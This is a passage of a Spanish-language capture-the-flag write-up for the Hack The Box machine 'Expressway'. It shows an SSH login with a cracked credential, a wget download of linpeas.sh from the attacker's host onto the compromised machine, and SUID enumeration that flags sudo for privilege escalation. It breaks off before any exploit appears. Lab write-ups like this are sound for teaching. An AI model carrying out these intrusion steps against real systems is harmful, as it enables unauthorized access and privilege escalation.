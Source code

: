 | Comando Ejecutado | `ssh ike@10.10.11.87` |
| :--- | :--- |
| **Credenciales** | **Usuario:** `ike` / **Contraseña:** *PSK crackeada* (asumido) |

```bash
quiqu3h4ck@kali:~/Maquinas/Expressway HTB]$ ssh ike@10.10.11.87
ike@10.10.11.87's password: 
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77 on ssh
Linux expressway.htb 6.1.67-dev14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.67-1 (2025-09-11) x86_64
# ... (Mensaje de bienvenida omitido)
````

2. Obtención de la Bandera del Usuario

Una vez dentro del shell de la máquina remota, obtengo el archivo de la bandera del usuario (user.txt).

## Paso 7: Enumeración Local con Linpeas y Descubrimiento de SUID

Con el acceso de usuario (`ike`) asegurado, el objetivo fue realizar una enumeración local para identificar rutas de escalada de privilegios, típicamente buscando binarios con permisos especiales o configuraciones vulnerables.

### 1. Descarga del Script de Enumeración Linpeas

Se inició un servidor HTTP en la máquina atacante para servir el *script* de enumeración `linpeas.sh` y se descargó desde el host comprometido.

<img width="1688" height="414" alt="me descargo linpeas en el usuario" src="https://github.com/user-attachments/assets/60c32018-3c88-43a2-afcf-109ffc17c579" />

| Acción | Detalle |
| :--- | :--- |
| **Comando de Descarga** | `wget http://10.10.14.195:8000/linpeas.sh` |
| **Resultado** | El archivo `linpeas.sh` fue descargado exitosamente en el directorio del usuario `ike`. |

### 2. Análisis y Descubrimiento de Binarios SUID

Tras la ejecución de `linpeas.sh` (o un comando similar de enumeración), se identificaron archivos binarios con el *bit* SUID (Set User ID) activado, lo que permite a un usuario ejecutar el archivo con los privilegios de su propietario (en muchos casos, *root*).

<img width="1305" height="362" alt="vulnerable sudo" src="https://github.com/user-attachments/assets/efc1ba60-4219-419c-9014-3fd328521d16" />


| Categoría | Binarios SUID Encontrados (Parcial) |
| :--- | :--- |
| **Interesantes** | `/usr/bin/sudo`, `/usr/bin/mount`, `/usr/bin/gpasswd`, `/usr/bin/umount`, `/usr/bin/newgrp`, etc. |
| **Vector de Escalada** | El binario `/usr/bin/sudo` fue señalado específicamente para "verificar si la versión de sudo es vulnerable", indicándolo como un objetivo potencial para la escalada a *root*. |

## Paso 8: Verificación de la Versión de Sudo y Búsqueda de Exploit
